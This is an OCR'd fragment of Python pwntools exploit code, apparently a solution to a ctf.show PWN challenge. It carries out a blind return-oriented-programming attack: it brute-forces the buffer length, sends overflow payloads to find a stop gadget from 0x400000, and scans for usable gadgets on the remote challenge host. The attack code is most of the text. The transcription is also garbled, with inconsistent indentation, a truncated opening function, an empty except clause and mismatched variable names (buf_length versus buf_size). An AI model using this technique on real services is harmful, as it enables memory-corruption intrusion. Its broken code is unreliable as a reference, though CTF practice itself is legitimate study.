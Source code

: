 ```python
            data = io.recv()
            io.close()
            if not data.startswith('No passwd'):
                return i-1
            else:
                i+=1
        except EOFError:
            io.close()
            return i-1
#找到获取stop_gadget     
def GetStopAddr():
	address = 0x400000
	while 1:
		print(hex(address))
		try:
			io = remote('pwn.challenge.ctf.show',28235)
			io.recvuntil('Do you know who is daniu?\n')	
            payload='a'*buf_length+p64(address)
 			io.send(payload)
 			output = io.recv()
 			if not output.startswith('Welcome to CTFshow-PWN ! Do you know who is daniu?'):
 				io.close()
 				address += 1
 			else:
 				return address
 		except EOFError:
 			address += 1
 			io.close()
#寻找useful gadge    
def GetgadgetsAddr(buf_length, stop_addr):
    addr = stop_addr
    while True:
        sleep(0.1)
        addr += 1
        payload  = "A" * buf_length
        payload += p64(addr)
        payload += p64(1) + p64(2) + p64(3) + p64(4) + p64(5) + p64(6)
        payload += p64(stop_addr)
        try:
            io = remote('pwn.challenge.ctf.show',28235)
            io.recvline()
            io.sendline(payload)
            io.recvline()
            io.close()
            log.info("find address: 0x%x" % addr)
            try:    # check
                payload  = "A"* buf_size
                payload += p64(addr)
                payload += p64(1) + p64(2) + p64(3) + p64(4) + p64(5) + p64(6)
                io = remote('pwn.challenge.ctf.show',28235)
                io.recvline()
                io.sendline(payload)
                io.recvline()
                io.close()
                log.info("bad address: 0x%x" % addr)
            except:
                io.close()
                log.info("gadget address: 0x%x" % addr)
                return addr
        except EOFError as e:
            io.close()
            log.info("bad: 0x%x" % addr)
        except:
```